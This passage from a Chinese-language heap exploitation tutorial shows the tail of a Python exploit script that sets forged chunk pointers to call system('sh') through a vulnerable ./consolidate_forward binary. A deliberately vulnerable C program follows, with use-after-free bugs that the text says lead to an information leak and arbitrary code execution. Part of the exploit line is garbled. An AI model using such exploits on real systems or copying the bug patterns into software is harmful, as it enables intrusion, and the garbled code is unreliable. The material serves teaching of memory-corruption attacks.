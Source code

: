 ``` python
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b008
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
这样一个vuln code会向前合并chunks，同样的，chunk也可以向后合并，同样也可以利用这个方法来exp
*注意：好像这个_call_tls_dtor()函数在ubuntu上是没有的。。*
#### UAF
在释放一个chunk之后再调用这个chunk的指针的行为称为Use-After-Free，可能导致任意地址代码的执行
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#define BUFSIZE1 1020
#define BUFSIZE2 ((BUFSIZE1/2) - 4)

int main(int argc, char **argv) {

 char* name = malloc(12); /* [1] */
 char* details = malloc(12); /* [2] */
 strncpy(name, argv[1], 12-1); /* [3] */
 free(details); /* [4] */
 free(name);  /* [5] */
 printf("Welcome %s\n",name); /* [6] */
 fflush(stdout);

 char* tmp = (char *) malloc(12); /* [7] */
 char* p1 = (char *) malloc(BUFSIZE1); /* [8] */
 char* p2 = (char *) malloc(BUFSIZE1); /* [9] */
 free(p2); /* [10] */
 char* p2_1 = (char *) malloc(BUFSIZE2); /* [11] */
 char* p2_2 = (char *) malloc(BUFSIZE2); /* [12] */

 printf("Enter your region\n");
 fflush(stdout);
 read(0,p2,BUFSIZE1-1); /* [13] */
 printf("Region:%s\n",p2); 
 free(p1); /* [14] */
}
```
与之前的内容不同的是，这里开启了ASLR，我们可以使用信息泄露和暴力的手段绕过ASLR。
上面的vuln code中包含了line[6]和line[13]两处UAF。它们相应的heap内存在line[5]和line[10]处被释放掉，但是在这两行里面又被调用。第[6]行的UAF导致信息的泄露，第[13]行的UAF导致了任意代码的执行。
> 那么攻击者是如何导致信息泄露的呢？
